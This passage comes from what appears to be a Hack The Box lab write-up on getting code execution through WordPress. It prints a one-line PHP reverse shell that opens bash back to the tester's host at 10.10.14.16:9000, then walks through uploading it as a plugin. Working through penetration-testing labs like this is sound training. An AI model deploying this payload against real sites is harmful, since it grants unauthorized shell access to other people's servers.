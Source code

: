 Here's the reference for the different approaches :
https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/wordpress.html#plugin-rce

I prepared a reverse shell php file.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat rshell.php 
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.16/9000 0>&1'") ?>
```

Then, let's upload it through "Plugin" menu.

Then, click "Add New"

![](../attachments/dante_5.png)

Click "Upload Plugin" and select `rshell.php` file we just created, then click "Install Now".

![](../attachments/dante_6.png)

Click "Proceed" after typing in "Hostname" and "FTP Username".
